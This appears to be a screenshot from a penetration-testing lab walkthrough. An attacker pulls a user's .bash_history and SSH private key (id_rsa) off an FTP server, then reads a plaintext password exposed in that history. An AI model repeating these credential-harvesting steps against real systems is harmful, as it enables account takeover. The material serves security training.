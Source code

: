 local: bash_history remote: bash_history
229 Entering Extended Passive Mode (|||39373|)
150 Opening BINARY mode data connection for bash_history (1285 bytes)
100% |**********************************************|  1285       51.01 KiB/s    00:00 ETA
226 Transfer complete
1285 bytes received in 00:00 (10.95 KiB/s)

ftp> cd .ssh
ftp> ls -al

229 Entering Extended Passive Mode (|||26184|)
150 Opening ASCII mode data connection for file list
-rw-------   1 john     john         2602 Feb 12 13:55 id_rsa
-rw-r--r--   1 john     john          565 Feb 12 13:55 id_rsa.pub
226 Transfer complete

ftp> get id_rsa

local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||41007|)
150 Opening BINARY mode data connection for id_rsa (2602 bytes)
100% |**********************************************|  2602      108.80 KiB/s    00:00 ETA
226 Transfer complete
2602 bytes received in 00:00 (22.28 KiB/s)

Attacker@Pwnbox:~$ cat WordPress_Blog_Setup_Update.txt

**Subject: Update on WordPress Blog Setup**

Dear Team,

We are currently in the process of setting up a new blog using WordPress.
To facilitate this setup, we have temporarily configured an FTP server.

Please note:
- This FTP server is for internal use only during the initial setup phase.
- Access credentials are temporary and will be revoked once the blog setup is complete or if security necessitates it.

However, we have recently received a high-priority ticket that requires immediate attention. As a result,
the completion of the blog setup will be slightly delayed. We are committed to addressing this urgent issue first to ensure our services remain uninterrupted.

We will notify the responsible parties as soon as the WordPress blog and web application are fully operational.
We appreciate your understanding and patience as we work to prioritize our tasks effectively.

Thank you for your cooperation.

Best Regards,
John Doe
Development Team

Attacker@Pwnbox:~$ cat .bash_history

<SNIP>
sudo rm -f /tmp/old_log.txt
sudo find /var/log -type f -name "*.gz" -delete
sudo systemctl restart rsyslog
cd /var/backups
ls -la
sudo tar -czf full_backup.tar.gz /etc /var/log
sudo mv full_backup.tar.gz /mnt/backup/
cd /mnt/backup
echo "john:SuperSecurePass123" | sudo chpasswd
<SNIP>
